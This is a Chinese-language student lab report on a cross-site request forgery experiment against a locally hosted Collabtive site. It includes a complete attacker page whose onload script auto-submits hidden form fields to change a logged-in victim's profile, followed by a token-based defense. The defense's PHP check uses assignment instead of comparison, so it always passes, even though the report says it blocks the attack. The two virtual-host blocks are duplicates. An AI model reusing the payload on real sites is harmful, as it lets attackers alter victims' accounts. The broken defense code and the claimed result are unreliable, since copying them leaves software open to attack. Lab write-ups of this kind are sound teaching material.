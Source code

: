 #信息安全实验
_Dong 2015210938_

_2016.04.23_

##CSRF:跨站请求伪造攻击
###攻击简介
在网络环境中，用户使用单个浏览器浏览可信任网页，攻击者利用恶意网站以受害用户的身份向可信任网站发起恶意请求。
###实验原理
在用户使用账号密码登陆到可信任站点后，受信任站点会在web浏览器存储cookie，并且在接下来的操作中不需要进行身份验证。这样恶意网站就可以使用脚本通过浏览器提交恶意请求到受信任站点，因为之前已经进行过了身份验证，受信任站点接受恶意请求操作。
###实验步骤
####配置网站
首先启动apache2和mysql_safe，让本地服务器启动起来。

	sudo service apache2 start
	sudo mysqld_safe

并且配置DNS域名解析，将模拟域名都解析到本地，添加一下内容到`/etc/hosts`中

	127.0.0.1	www.heyheyattacker.com
	127.0.0.1	www.heyheynormal.com

并且在`/etc/apache2/conf.d/lab1.conf`和`/etc/apache2/conf.d/lab2.conf`中分别配置网站

	<VirtualHost *:80>
		ServerName http://www.heyheyattacker.com
		DocumentRoot /var/www/CSRF/Attacker/
	</VirtualHost>


	<VirtualHost *:80>
		ServerName http://www.heyheyattacker.com
		DocumentRoot /var/www/CSRF/Attacker/
	</VirtualHost>
####**攻击**
在攻击者的服务器里制作个攻击网页。其中包含提交恶意申请的javascript脚本。
将以下内容的作为文件`index.html`保存在`/var/www/CSRF/Attacker`中：
```c++
<html><body><h1>
This page forges an HTTP POST request.
</h1>
<script>
function post(url,fields)
{
//create a <formelement.
var p = document.createElement('form');
//construct the form
p.action = url;
p.innerHTML = fields;
p.target = '_self';
p.method = 'post';
//append the form to the current page.
document.body.appendChild(p);
//submit the form
p.submit();
}
function csrf_hack()
{
var fields;
// The following are form entries that need to be filled out
// by attackers. The entries are made hidden, so the victim
// won't be able to see them.
fields += "<input type='hidden' name='name' value='peter'>"; //修改用户名
fields += "<input type='hidden' name='userfile' value=''>";  
fields += "<input type='hidden' name='company' value='seed'>";  //修改公司名
post('http://www.heyheynormal.com/manageuser.php?action=edit',fields);
}
// invoke csrf_hack() after the page is loaded.
window.onload = function() { csrf_hack(); }
</script>
</body></html>
```
其中`csrf_hack()`函数中的：
```javascript
	fields += "<input type='hidden' name='name' value='peter'>"; //修改用户名
	fields += "<input type='hidden' name='userfile' value=''>";  
	fields += "<input type='hidden' name='company' value='seed'>";  //修改公司名
	post('http://www.heyheynormal.com/manageuser.php?action=edit',fields);
```
即为提交恶意请求的关键。

实验结果：在用户登录之后，访问`www.heyheyattacker.com`。用户的账号信息被更改，用户名被更改为`peter`，公司改为`seed`。

在打开`www.heyheyattacker.com`之后，用户的信息便被修改。
####**防御**
可以通过添加伪随机数的方法来防御跨站攻击。

实验中通过将document.cookie提交给要访问的可信任站点，并在之后的操作中可信任站点都对这个值进行验证，如果攻击者不能窃取可信任网站的cookie则在提交恶意请求时，不能通过可信任站点的有效验证，则攻击失效。

在可信任网页`/var/www/CSRF/Collabtive/templates/standard/edituserform.tpl`提交POST时提交一个隐藏的input，值为`document.cookie`。

而后可信任站点在接受到请求后在`manageuser.php`中对值进行验证

	...
	$sid = getArrayVal($_POST, "sid");
	...
	if($_COOKIE["PHPSESSID"]=$sid)
	...

实验结果：再次访问`www.heyheyattacker.com`并不能对用户信息进行更改。

###实验思考
CSRF攻击利用的是，用户在进行登录验证之后，和可信任站点交互不会再进行相互认证这个漏洞。因此只要想法在用户登录之后能有信息似的用户和可信任站点之间能够相互验证，并且在攻击者不能获得这份信息的前提下，就能有效避免这类攻击，就像这里的cookie信息。


----------
实验来自`实验楼`


